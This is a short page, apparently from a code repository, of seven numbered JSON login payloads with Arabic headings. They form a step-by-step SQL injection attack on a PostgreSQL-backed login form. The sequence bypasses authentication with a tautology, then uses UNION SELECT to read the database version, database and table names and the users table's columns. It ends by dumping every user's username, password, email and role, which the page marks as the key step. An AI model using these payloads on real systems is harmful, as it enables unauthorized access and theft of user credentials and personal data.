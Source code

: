 **1. تجاوز المصادقة:**
```json
{
  "username": "admin' OR '1'='1' --",
  "password": "anything"
}
```

**2. استخراج إصدار قاعدة البيانات:**
```json
{
  "username": "admin' UNION SELECT version(),NULL,NULL,NULL,NULL,NULL --",
  "password": "test"
}
```

**3. استخراج أسماء قواعد البيانات:**
```json
{
  "username": "admin' UNION SELECT datname,NULL,NULL,NULL,NULL,NULL FROM pg_database --",
  "password": "test"
}
```

**4. استخراج أسماء الجداول:**
```json
{
  "username": "admin' UNION SELECT table_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.tables WHERE table_schema='public' --",
  "password": "test"
}
```

**5. استخراج هيكل جدول المستخدمين:**
```json
{
  "username": "admin' UNION SELECT column_name,data_type,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='users' ORDER BY ordinal_position --",
  "password": "test"
}
```

**6. 💎 استخراج جميع بيانات المستخدمين (الأهم):**
```json
{
  "username": "admin' UNION SELECT id||'|'||username||'|'||password||'|'||email||'|'||COALESCE(first_name,'')||'|'||COALESCE(last_name,'')||'|'||role,NULL,NULL,NULL,NULL,NULL FROM users --",
  "password": "test"
}
```

**7. معلومات النظام:**
```json
{
  "username": "admin' UNION SELECT current_user||'|'||current_database()||'|'||version(),NULL,NULL,NULL,NULL,NULL --",
  "password": "test"
}
```

